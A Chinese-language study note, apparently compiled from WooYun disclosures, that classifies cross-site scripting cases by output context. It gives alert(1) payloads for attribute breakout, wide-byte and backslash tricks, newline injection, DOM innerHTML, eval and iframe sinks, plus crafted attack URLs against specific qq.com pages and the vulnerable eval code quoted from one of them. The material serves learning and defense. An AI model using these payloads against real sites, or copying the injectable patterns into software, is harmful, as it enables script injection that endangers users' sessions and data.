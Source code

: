 #XSS 分类

#### 整理自乌云

- 什么都没过滤的情况
- 输出在`<script><script/>`之间的

    `new Image().src="..."` 或者 `<script>alert(1)</script>`

- 输出在html里的

    `http://xxx.com/search?word=hehe`

    ```html
    <input type="text" value="hehe">
    ```

    修改为 `http://xxx.com/search?word=hehe" onclick="alert(1)`

    则变成
    ```html
    <input type="text" value="hehe" onclick="alert(1)">
    ```

- 宽字节注入

    URL 编码简介
    | sp  | "   |  '  |  ,  |  ;  |  <  |  >  |  ?  |  [  |
    | --- | --- | --- | --- | --- | --- | --- | --- | --- |
    | %20 | %22 | %27 | %2C | %3B | %3C | %3E | %3F | %5B |


    |  ]  |  {  |  o  |  }  | 
    | --- | --- | --- | --- |
    | %5D | %7B | %7C | %7D |

    | newline |    [   |    ]   |  &#124; |
    | ------- | ------ | ------ | ------- |
    |  space  | \&#91; | \&#93; | \&#124; |

    
    `http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%22;alert(1);//aaaaaa`
    中 `%22` 代表 `"`, 但是最后被过滤为 `&quot;`：
    ```js
    var gsTest = "&quot;;alert(1);//aaaaaa";
    ```
    预想效果:
    ```js
    var gsTest = "";alert(1);//aaaaaa";
    ```

    当html为gbxxxx系列编码时，改为如下:
    
    `http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%c0%22;alert(1);//aaaaaa`
    
    效果： 
    ```js
    var gsTest= "宽";alert(1);//aaaaaa
    ```
    我试了在console里试了` decodeURI('%C0%5C') `等各种组合还是不明白真相...

    作者解释：至于这个漏洞的成因，和传统的宽字节漏洞并不一样。目测应该是由于过滤双引号的正则表达式写得有问题造成的。
    并不是因为%22变成了 %5c%22,而 %c0吃掉了后面的%5c （怎么吃的啊T^T）

- 反斜杠

    ```js
    location.href="........."+"&ss=aaaa"+"&from=bbb"+"&param=";//comment
    ```
    可以用反斜杠 `\` 杀死 `"`，改成
    ```js
    location.href="........."+"&ss=aaaa\"+"&from=1//"+"&param=";
    ```
    问题： "字符串"&from=1，这样是错误的，因为&符号的优先级高， ("字符串"&from)=1 是无法进行这种赋值操作，继续修改 
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1//"+"&param=";
    ```
    问题： from未定义，加一个函数定义（js会先解析定义），继续修改
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1;function from(){}//"+"&param=";
    ```
    问题： 空格被转义为了 `&nbsp;`， /**/替换空格，继续修改 
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1;alert(1);function/**/from(){}//"+"&param=";
    ```

- 换行符

    ` %0a ` 代表html中的换行，达到如下效果：
    ```js
    //我是注释，我爱洗澡，哦～哦～哦～ [我是输出]
    ```
    变成
    ```js
    //我是注释，我爱洗澡，哦～哦～哦～ [我是输出  换行符
    alert(1);//我是输出]
    ```

- DOM XSS 显示输出
    ```js
    document.getElementById('test').innerHTML = "<img src=1>";
    document.write('....');
    $('.class-name').html('...');
    ```
    `innerHTML = <script>alert(1)</script>`无法触发，只能用`<img>`
    JS的字符串中的字符可以写为 unicode编码。
    如： `<` 可以表示为 `\u003c` , `>` 可以表示为 `\u003e`
    ```js
    document.getElementById("a").innerHTML="\u003cimg src=1\u003e";
    ```
    在JS字符串里， < 不光可以写为 \u003c，还可以写为 \x3c， > 同样可以写为 \x3e, 是16进制编码

- DOM XSS 隐式输出
    ```html
    <object><param name="movie" value="aaaaa">
    ```
    `http://qt.qq.com/video/play_video.htm?sid=aaaaaa"></object><img src="1" onerror="alert(1)`

    通过隐式闭合标签进行注入，插入诸如`<img>`标签
    ```html
    <object><param name="movie" value="aaaaa"></object><img src="1" onerror="alert(1)">
    ```
    
    由于chrome已经过滤了`< >`两个符号，所以js代码过滤的是encode后的字符，相当于没过滤
    `decodeURIComponent` 的操作，会将 `%3c`, `%3e`，又变回 `<`, `>`
    
    也可以构造URL如 `http://qt.qq.com/video/play_video.htm?sid=aaaaaa%22%3E%3C/object%3E%3Cimg%20src=1%20onerror=alert(1)%3E` 以达到目的

- DOM XSS eval函数

    先看这个url: `http://kf.qq.com/search_app.shtml?key=aaaaa`
    通过在url后面加非法字符 `\` 构造 `http://http://kf.qq.com/search_app.shtml?key=aaaaa\`
    然后从控制台定位到错误代码，发现下面这段js
    ```js
    var getarg = function() {
        var url = window.location.href;
        var allargs = url.split("?")[1]; // 获得key=aaaa
        if (allargs!=null && allargs.indexOf("=")>0) {
            var args = allargs.split("&"); // 多arguments情况
            for(var i=0; i<args.length; i++) {
                var arg = args[i].split("=");
                eval('this.'+arg[0]+'="'+arg[1]+'";'); // 直接用了this调用key
                // 然后可以在页面里执行
            }
        }
    };
    ```
    通过加分号断句，让自己的xss执行，那么可以把`this.key="aaaaa";` 变成 `this.key;alert(1);//="asdas"`
    让 `arg[0]` 变成 `key;alert(1);//`，把后面的用注释断句
    构造url: `http://kf.qq.com/search_app.shtml?key;alert(1);//=aaaaa`

    chrome中 `"` 会变成 `%22` 而失效

- DOM XSS iframe

    有时候，输出还会出现在 <iframe src="[输出]"></iframe> 。
    iframe 的 src属性本来应该是一个网址，但是iframe之善变，使得它同样可以执行javascript，
    而且可以用不同的姿势来执行。这一类问题，我将其归为[路径可控]问题。
    当然上面说到的是普通的反射型XSS。有时候程序员会使用javascript来动态的改变iframe的src属性，譬如：iframeA.src="[可控的url]"; 同样会导致XSS问题

    - onload执行js
    ```html
    <iframe onload="alert(1)"></iframe>
    ```
    - src执行js
    ```html
    <iframe src="javascript:alert(1)"></iframe>
    ```
    - chrome下data协议执行代码
    ```html
    <iframe src="data:text/html,<script>alert(1)</script>"></iframe>
    ```
    - chrome下srcdoc属性，变体
    ```html
    <iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
    ```
